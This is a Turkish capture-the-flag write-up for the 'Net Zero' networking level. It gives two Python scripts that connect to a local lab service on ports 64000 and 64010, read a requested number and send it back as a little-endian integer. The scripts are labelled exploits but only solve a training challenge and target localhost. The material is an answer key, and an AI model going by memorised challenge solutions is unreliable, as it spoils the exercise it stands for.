

# Net Zero Writeup

# `Source Code`

Soruda bize amd64 için 64000 portunu i486 için 64010 portunu kullanmamız gerektiğini söylemiş.

`netcat` ile bağlanarak programımızın nasıl çalıştığına bir bakalım.

Bizden belli bir değer göndermemizi bekliyor. (Burada gireceğiniz değer doğrudan 32 bit sayı olarak yorumlanmakta)

Exploitimizde sırasıyla şunları yapmamız gerekmekte ;  Sokete bağlan -> İkinci satırı oku -> İstenen sayıyı ayır -> Sayıyı little-endian olarak tamsayı halinde gönder -> Sonucu oku

# `Exploit`

`i486`

    import struct
    import socket

    def read_line_from_sock(socket):
            buf = ""
            while True:
                    b = s.recv(1)
                    if b == b'\n':
                            break
                    buf += b.decode("ascii")
            return buf

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.connect(('127.0.0.1', 64010))
            print(read_line_from_sock(s))
            query = read_line_from_sock(s)

            print(query)
            num_to_send = str(query).split()[2].split("'")[1]
            s.sendall(struct.pack('I', int(num_to_send)))
            print(read_line_from_sock(s))

`amd64`

    import struct
    import socket

    def read_line_from_sock(socket):
        buf = ""
        while True:
            b = s.recv(1)
            if b == b'\n':
                break
            buf += b.decode("ascii")
        return buf

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect(('127.0.0.1', 64000))
        print(read_line_from_sock(s))
        query = read_line_from_sock(s)

        print(query)
        num_to_send = str(query).split()[2].split("'")[1]
        s.sendall(struct.pack('I', int(num_to_send)))
        print(read_line_from_sock(s))
